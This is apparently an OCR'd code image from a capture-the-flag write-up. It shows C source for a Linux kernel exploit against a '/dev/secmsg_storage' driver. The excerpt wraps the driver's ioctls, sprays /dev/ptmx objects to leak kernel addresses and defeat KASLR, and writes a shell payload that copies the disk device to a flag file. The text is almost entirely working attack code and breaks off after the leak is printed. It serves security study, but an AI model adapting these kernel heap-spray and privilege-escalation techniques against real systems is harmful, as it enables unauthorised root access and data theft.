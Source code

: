 ```c  

void read_secmsg(uint32_t idx, char *buf, uint32_t len) {  
   params_t args = {  
       .idx = idx,  
       .buf = buf,  
       .len = len  
   };  
   args.buf = buf;  
   args.len = len;  
   ioctl(fd, CMD_READ_MESSAGE, &args);  
}

void delete_secmsg(uint32_t idx) {  
   params_t args = {  
       .idx = idx  
   };  
   if (ioctl(fd, CMD_DELETE_MESSAGE, &args) < 0)  
       err_exit(1, "CMD_DELETE_MESSAGE");  
}

int main() {  
   params_t args;  
   uint64_t kaslr_leak, kaslr_base, heap_leak_1, heap_leak_2, q1;  
   char buf[0x500] = {0};  
   char buf2[0x500] = {0};  
   char buf3[0x1000] = {0};  
   int victim_idx, leak_idx;  
   int found = 0;  
   int ss[2];

   memset(buf, 0x41, sizeof(buf));  
   memset(buf3, 0x43, sizeof(buf3));

   fd = open("/dev/secmsg_storage", O_RDONLY);  
   if (fd < 0)  
       err_exit(1, "open");

   if (socketpair(AF_UNIX, SOCK_STREAM, 0, ss) < 0)  
           err_exit(1, "[-] socketpair 1");

   puts("lesgo");

   /*  
       Write payload to file  
   */  
   system("echo -e '#!/bin/sh\ncat /dev/sda > /jail/flag\nchmod 666
/jail/flag' > /jail/a; chmod +x /jail/a");

   /*  
       Leak kASLR  
   */  
   for (int i = 0; i < 20; i++)  
       open("/dev/ptmx", O_RDWR | O_NOCTTY);

   leak_idx = add_secmsg(buf, 600, 1001);

   for (int i = 20; i < 40; i++)  
       open("/dev/ptmx", O_RDWR | O_NOCTTY);

   read_secmsg(leak_idx, buf2, 0x400 - 44);  
   read_secmsg(leak_idx, buf2, 0x100);

   hexprint(buf2, 0x100);
```